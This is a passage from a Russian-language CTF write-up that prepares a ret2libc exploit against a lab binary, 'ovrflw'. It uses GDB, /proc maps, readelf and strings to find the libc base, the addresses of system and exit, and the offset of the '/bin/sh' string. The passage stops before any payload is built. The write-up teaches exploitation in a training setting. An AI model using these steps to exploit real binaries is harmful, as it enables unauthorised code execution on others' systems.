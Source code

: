 [![gdb-ovrflw-maps.png](/assets/images/pwn-kingdom/october/gdb-ovrflw-maps.png)](/assets/images/pwn-kingdom/october/gdb-ovrflw-maps.png)
{:.center-image}

В этом случае по тому же адресу загрузится библиотека `libc-2.23.so` (а не `libc.so.6`), используемая GDB и содержащая дополнительную отладочную информацию. Однако общий смысл остается неизменным.

Эти же данные можно получить из файла `/proc/<ovrflw_PID>/maps`.

[![procfs-ovrflw-maps.png](/assets/images/pwn-kingdom/october/procfs-ovrflw-maps.png)](/assets/images/pwn-kingdom/october/procfs-ovrflw-maps.png)
{:.center-image}

#### 2. Смещения до функций system и exit

Величины смещений функций относительно базового адреса `libc` можно запросить с помощью утилиты `readelf`, примененной к самой библиотеке с флагом `-s` (отображает [таблицу символов](https://ru.wikipedia.org/wiki/Таблица_символов) запрошенного файла).

```
$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -e ' system@' -e ' exit@'
   141: 0002e9d0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0
  1457: 0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```

Выбрав интересующую нас информацию по ключевым словам ` system@` и ` exit@`, мы получили два значения смещения: `0x0003ada0` для `system` и `0x0002e9d0` для `exit`.

Альтернативным подходом к получению адресов требуемых функций является использование команды `print` отладчика GDB. Загрузив `ovrflw` для отладки, аналогично просмотру маппинга памяти выставим точку останова на `main`, запустим программу и вытащим нужные нам адреса.

```
gdb-peda$ b main
gdb-peda$ r
gdb-peda$ p system  # print system
$1 = {<text variable, no debug info>} 0xb7e43da0 <__libc_system>
gdb-peda$ p exit    # print exit
$2 = {<text variable, no debug info>} 0xb7e379d0 <__GI_exit>
```

Замечу, что в данном случае мы получили абсолютные значения адресов функций `system` и `exit` (`0xb7e43da0`, `0xb7e379d0` соответственно), а не их относительные смещения.

#### 3. Смещение до строки "/bin/sh"

Если речь идет о поиске строк в Linux, очевидно, не обойдется без утилиты `strings`.

```
$ strings -atx /lib/i386-linux-gnu/libc.so.6 | grep '/bin/sh'
 15ba0b /bin/sh
```

Флаг `-a` необходим для поиска по всему файлу, а `-t x` задает формат вывода адреса (16-ричный в нашем случае).

Другим способом получения адреса `"/bin/sh"` станет поиск «в лоб».

В классическом GDB такой поиск осуществляется командой `find`.
